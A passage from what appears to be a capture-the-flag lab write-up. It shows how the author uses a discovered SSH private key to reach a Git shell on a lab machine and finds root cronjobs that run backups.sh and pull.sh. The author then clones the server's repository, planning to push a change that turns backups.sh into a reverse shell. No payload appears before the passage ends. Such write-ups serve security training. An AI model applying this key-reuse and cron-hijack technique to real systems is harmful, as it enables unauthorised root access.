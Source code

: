 ```
drwxr-xr-x 4 git  git  4096 Nov  5  2020 ..
-rwxr-xr-x 1 root root  564 Nov  5  2020 authorized_keys
-rwxr-xr-x 1 root root 2590 Nov  5  2020 id_rsa
-rwxr-xr-x 1 root root  564 Nov  5  2020 id_rsa.pub
```

There's also mention of `git-shell-commands`, meaning that we probably need to use this SSH key to perform some Git commands. Using this key, we can `ssh` in to get a Git shell:

```
$ ssh -i git_key git@192.168.183.125 -p 43022
Last login: Wed Jul 12 05:15:03 2023 from 192.168.45.208
git> 
```

### Cronjob --> Git Hijack

I did some enumeration on the machine as `dademola` first, since there wasn't much I could do with a Git shell yet.&#x20;

There was a `git-server` folder present in the `/` directory:

```
[dademola@hunit /]$ ls
bin   dev  git-server  lib    lost+found  opt   root  sbin  sys  usr
boot  etc  home        lib64  mnt         proc  run   srv   tmp  var
```

There was also some mention of a `backups.sh` file being executed periodically as part of a cronjob:

```
[dademola@hunit /]$ cat /etc/crontab.bak
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

The `backups.sh` file is also in a `git-server` file of its own, and `pull.sh` is likely pulling changes from...somewhere. Since we have a Git shell, my guess is that we need to use it to submit a malicious PR that changes `backups.sh` to a reverse shell.

To exploit this, let's first clone the repository from the machine:

```
$ GIT_SSH_COMMAND='ssh -i key -p 43022' git clone git@192.168.183.125:/git-server 
Cloning into 'git-server'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 12 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (2/2), done.
```

Here, we can see that `backups.sh` has nothing in it:

```bash
$ cat backups.sh 
#!/bin/bash
#
#
# # Placeholder
#
```
